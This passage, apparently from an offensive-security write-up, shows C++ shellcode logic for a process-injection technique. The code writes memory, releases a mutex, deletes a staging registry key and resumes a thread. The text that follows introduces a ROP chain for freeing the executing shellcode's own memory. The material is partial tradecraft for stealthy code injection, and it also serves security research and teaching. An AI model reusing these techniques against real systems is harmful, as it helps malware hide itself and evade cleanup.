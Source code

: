 ```cpp
#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(500);
#endif // !DEBUG_SLEEP

#if defined(_DEBUG) && defined(WPM)
    if (!success) {
        printfFunc("Error writing memory\n");
    }
    else {
        printfFunc("Successfully overwritten memory\n");
    }
#endif

    freeFunc(cbBuf);

    // Now we can release the mutex
    if (NULL != mutex) {
        // Mutex exists, so we exit
        CloseHandleFunc(mutex);
    }


    // We can finally delete the key
    RegCloseKeyFunc(hKey);
    RegDeleteKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey);

    // At this point, we can resume the thread which will deallocate this shellcode from memory    
    // And return
#ifdef RESUME_THREAD
    if (hThread != NULL) {
        ResumeThreadFunc(hThread);
    }
#endif
    return 0;
}
```

###### Shellcode 4 - Freeing the allocated buffer

As a final piece for our shellcode, we will need to free the RX memory section we allocated to store
the main logic code. The main problem of this task is that we need to free the memory we are currently
executing, which is, in layman terms, impossible using conventional ways.

To solve this problem, we will use a ROP chain. As we need to inject it as shellcode, though, we will
need to dynamically resolve the gadgets we need, and we will also need to "JIT compile" the shellcode.

To do that, we'll need a few things:
